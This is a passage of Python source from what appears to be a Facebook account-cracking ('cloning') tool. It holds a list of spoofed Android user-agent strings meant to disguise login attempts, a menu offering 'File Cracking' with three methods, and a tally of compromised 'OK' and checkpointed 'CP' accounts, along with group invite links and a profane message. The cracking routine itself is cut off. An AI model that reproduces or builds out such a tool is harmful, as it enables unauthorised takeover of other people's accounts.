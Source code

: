 Build/S3RWBS32.125-29-2-5)","Dalvik/2.1.0 (Linux; U; Android 8.1.0; T98_box Build/OPM6.171019.030.B1)","Dalvik/2.1.0 (Linux; U; Android 11; MS5424G Build/RP1A.200720.011)","Dalvik/2.1.0 (Linux; U; Android 10; RCT6716Q25 Build/QP1A.190711.020)","Dalvik/1.6.0 (Linux; U; Android 4.2.2; RCS13101T Build/JDQ39)","Dalvik/2.1.0 (Linux; U; Android 11; SK3404 Build/RQ3A.210705.001)","Dalvik/2.1.0 (Linux; U; Android 5.1; Cynus F7 Build/LMY47D)","Dalvik/2.1.0 (Linux; U; Android 12; motorola one 5G UW ace Build/S3RVS32.128-36-4-1)","Dalvik/2.1.0 (Linux; U; Android 7.1.2; AFTA Build/NS6296)","Dalvik/2.1.0 (Linux; U; Android 5.1; Impress Style Build/LMY47I)","Dalvik/2.1.0 (Linux; U; Android 9; cherry Build/R112-15359.58.0)","Dalvik/2.1.0 (Linux; U; Android 13; SM-A546E Build/TP1A.220624.014)","Dalvik/2.1.0 (Linux; U; Android 13; V2031_21 Build/TP1A.220624.014)","Dalvik/2.1.0 (Linux; U; Android 13; LGE-NX9 Build/HONORLGE-N49)","Dalvik/2.1.0 (Linux; U; Android 10; MAXI 20 Build/QP1A.190711.020)","Dalvik/2.1.0 (Linux; U; Android 9; HRY-LX1 Build/HONORHRY-LX1)","Dalvik/2.1.0 (Linux; U; Android 9; andrino 2K Android TV Build/PTO6.220120.001)","Dalvik/1.6.0 (Linux; U; Android 4.4.2; VS880 Build/KOT49I.VS88010B)",])+END
    return ua


class Main:
    def __init__(self):
        os.system('clear')
    def saved_results(self,ok,cp):
        if len(ok) != 0 or len(cp) != 0:
            p('\n')
            line()
            p(' [â€¢] Cloning Process Has Been Completed ')
            p(' [â€¢] Total OK Accounts : %s '%(len(ok)))
            p(' [â€¢] Total CP Accounts : %s '%(len(cp)))
            line()
            input(' [â€¢] Press Enter To Go Back To Main Menu ')
            self.menu()
    def menu(self):
        logo()
        p(' [â€¢] INSHALLAH DAILY UPDATES')
        line()
        p(' [1] File Cracking ')
        p(" [2] Join Facebook Group ")
        p(' [3] Join Whatsapp Group ')
        line()
        m_1 = input(' [â€¢] Choose : ')
        if m_1 == '1':
            self.methods_menu()
        elif m_1 == '2':
            os.system('xdg-open https://facebook.com/groups/828047231455910//')
            sp(1)
            self.menu()
        elif m_1 =='3':
            os.system('xdg-open https://chat.whatsapp.com/Jv6uZwbW5so4zCQml49xBA')
        else:
            p(' [â€¢] Wrong Select Hai Bhosdikay ')
            sp(1)
            self.menu()
    def methods_menu(self):
        line()
        p(' [1] Method 1 \n [2] Method 2 \n [3] Method 3')
        line()
        m_2 = input(' [â€¢] Select Method : ')
        if m_2 == '1':
            method.append('i')
            self.cracking()
        elif m_2 == '2':
            method.append('ii')
            self.cracking()
        elif m_2 == '3':
            method.append('iii')
            self.cracking()